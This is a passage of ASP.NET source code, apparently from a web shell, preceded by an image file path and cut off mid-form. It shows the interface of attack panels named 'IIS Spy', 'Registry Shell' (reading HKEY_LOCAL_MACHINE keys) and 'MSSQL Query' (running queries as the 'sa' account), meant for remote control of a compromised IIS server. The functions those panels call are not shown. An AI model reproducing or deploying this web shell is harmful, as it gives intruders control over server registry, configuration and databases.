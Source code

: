         <br />
        <asp:Label ID="Label1" runat="server" Text="Result:" Visible="False" Width="70px"></asp:Label><br />
        <asp:ListBox ID="lstRet" runat="server" BackColor="Black" ForeColor="#00C000" Height="251px"
            Width="527px" Visible="False"></asp:ListBox>
        <hr align=left style="width: 526px" />
        <br />
       </div>
    </form>
<%
case "iisspy"
%>
	<p align=center>[ IIS Spy ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<% 
				Try
				Response.write(IISSpy())
				Catch
				rw("This function is disabled by server")
				End Try
	%>
<%
case "sqltool"
%>
	<p align=center>[ SQL Tool ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<% 
				Try
				
				Catch
				rw("This function is disabled by server")
				End Try
	%>
<%
case "regshell"
%>
	<form runat="server">
	<p align=center >[ Registry Shell ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  	Key:&nbsp;&nbsp;
	<asp:TextBox ID="txtRegKey" runat="server" style="width: 595px; border: 1px solid #084B8E">HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName</asp:TextBox><br><br>
	Value:
	<asp:TextBox ID="txtRegValue" runat="server" style="border: 1px solid #084B8E">ComputerName</asp:TextBox>&nbsp;&nbsp;
  	<asp:Button ID="btnReadReg" runat="server" Text="Run" OnClick="RegistryRead" style="color: #FFFFFF; border: 1px solid #084B8E; background-color: #719BC5"/>  
  	<p>
    <asp:Label ID="lblresultReg" runat="server" style="color: red"/>      
    </p>
	</form>
<%
	case "sqlman"
%>
<form runat="server">
  <p>[ MSSQL Query ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
  <p> Execute query with SQLServer account(<span class="style3">Notice: only click "Run" to run</span>)</p>
  <p>Host:
    <asp:TextBox ID="txtHost" runat="server" Width="300" class="TextBox" Text="127.0.0.1"/></p>
  <p>
  SQL Name:
    <asp:TextBox ID="txtSqlName" runat="server" Width="50" class="TextBox" Text='sa'/>